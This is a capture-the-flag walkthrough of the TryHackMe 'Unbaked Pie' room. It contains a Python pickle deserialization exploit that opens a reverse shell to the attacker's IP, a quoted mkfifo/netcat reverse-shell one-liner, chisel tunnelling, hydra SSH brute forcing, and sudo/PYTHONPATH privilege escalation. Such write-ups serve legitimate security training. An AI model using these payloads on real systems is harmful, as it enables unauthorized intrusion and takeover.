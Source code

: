 # Unbaked Pie

https://tryhackme.com/room/unbakedpie

A fun room, with a pickle deserialization vector, internal pivot, and several python vulnerabilities. This room was somewhat special for me because I tried it several times over the last year, each time finding it slightly beyond my capabilities. Specifically the pivot, which I only really mastered (enough to do it casually) after the [Wreath](https://www.tryhackme.com/room/wreath) network.

## Foothold

Enumeration revealed a single port, 5003. On that port was a website talking about pies and pickles, nice puns around python and the pickle serialization library. Sure enough, the search functionality would set a cookie with a pickle value.

Exploiting this is a bit tricky, mainly because the website didn't respond to malformed cookies (it instead would crash generally if the search page is accessed via a GET). This deflected me for a bit, as I tried to find the right place where the cookie value was read. However, in actuality the value IS read on the GET /search, it just crashes anyway, so replacing the cookie and requesting this page is the entry point.

The second issue was that the standard `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.0.7 4444 >/tmp/f` would fail, but I eventually discovered that plain `nc -e /bin/bash` worked. Always worth testing, even if this is rare.

So, finally, the python3 script I used to generate a new cookie value was:

```python3
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('nc -e /bin/bash 10.10.101.125 4444')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

## Docker escape

After getting a shell, I was root in a docker container running at 172.17.0.2, confirmed via `ip a` and `hostname -i`. Exploring, I found /root/.bash_history hadn't been cleared, and in there, there were references to ssh'ing into ramsey@172.17.0.1, but also to ssh being removed from the box which I confirmed.

So this was the pivot - I needed to get 172.17.0.1:22 accessible from my attack box. To do this I used chisel: https://github.com/jpillora/chisel.

On the attack box I started a server with `client server -p 1337 --reverse &`, while on the docker container after downloading chisel to it via wget, I used `chisel client 10.10.101.125:1337 R:2222:172.17.0.1:22 &`. This opened, on the attack box, `127.0.0.1:2222` pointing at the internal machine.

Next, with ramsey as the user, I cracked the password using hydra: `hydra -l ramsey -P rockyou.txt 127.0.0.1 -s 2222 -t 4 ssh`, which got the password pretty quickly. I was then able to ssh in via `ssh -p 2222 ramsey@127.0.0.1`.

## Ramsey to Oliver

The user flag was in ramsey's folder. Running sudo -l revealed `(oliver) /usr/bin/python /home/ramsey/vuln.py`. 

Opening vuln.py, it was interesting: aside from a basic calculator, it could also use pytesseract to parse the text from an image (payload.png, in ramsey's folder) and pass the result to be evaluated.

I experimented with creating my own image: a white box with black text that would spawn a python shell. However I couldn't get tesseract to parse this correctly, after several attempts. Ultimately, it was unecessary: whether intended or not, vuln.py was in ramsey's folder and deletable, so I removed it and replaced it with a file containing `import pty; pty.spawn('/bin/bash')`. This gave me an oliver shell.

## Oliver to Root

sudo -l as oliver revealed `(root) SETENV: NOPASSWD: /usr/bin/python /opt/dockerScript.py`.

The setenv flag is a giveaway here: it allows me to set PYTHONPATH when running sudo, which meant if `dockerScript.py` contained any import statements, I could easily escalate to root. Sure enough, `import docker` meant I just put `import pty; pty.spawn('/bin/bash')` into docker.py, and then ran `sudo PYTHONENV=/home/oliver/ /usr/bin/python /opt/dockerScript.py` to get an instant root shell.

The final flag was in /root as normal :)
